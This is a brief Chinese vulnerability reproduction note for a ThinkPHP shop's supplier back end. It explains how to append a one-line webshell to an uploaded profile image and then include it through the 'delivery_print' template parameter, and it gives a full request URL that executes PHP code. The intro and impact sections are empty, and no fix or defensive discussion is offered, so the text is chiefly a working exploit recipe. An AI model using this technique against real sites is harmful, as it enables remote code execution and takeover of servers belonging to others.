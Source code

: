 ```yaml
---
title: "Thinkphp Shop 供应商后台本地文件包含导致权限提升"
id: zhfly3182
---
```


# Thinkphp Shop 供应商后台本地文件包含导致权限提升

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 1、用户个人资料修改处上传图片

http://www.0-sec.org/Home/User/info.html

### 2、上传一张正常图片，并在图片末尾加上一句话

### 3、返回shell

http://www.0-sec.org/supplier/order/delivery_print?template=public/upload/user/4575/head_pic/5989ee42cc5992e64a60c52b0cbb7602.png&w=phpinfo();